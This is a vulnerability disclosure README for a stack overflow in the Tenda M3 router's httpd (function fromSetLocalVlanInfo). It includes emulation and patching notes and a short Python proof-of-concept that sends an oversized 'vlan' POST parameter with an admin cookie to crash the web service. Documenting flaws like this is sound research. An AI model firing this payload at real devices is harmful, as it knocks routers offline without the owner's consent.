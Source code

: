 # Tenda M3 contains Stack Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack overflow. The vunlerability is in fucntion `fromSetLocalVlanInfo` 

![image-20220819084852048](readme.assets/image-20220819084852048.png)

In this function, is copies POST parameter `vlan` to stack buffer without checking its length, causing a stack overflow vulnerability. 

**It is similar to [this vuln](https://github.com/xxy1126/Vuln/tree/main/5), but the parameter is different**

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "action": "add", 
    "vlan": "a"*0x300
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setVlanInfo", data=data, cookies=cookies)
print(res.content)

```

![image-20220819084838525](readme.assets/image-20220819084838525.png)

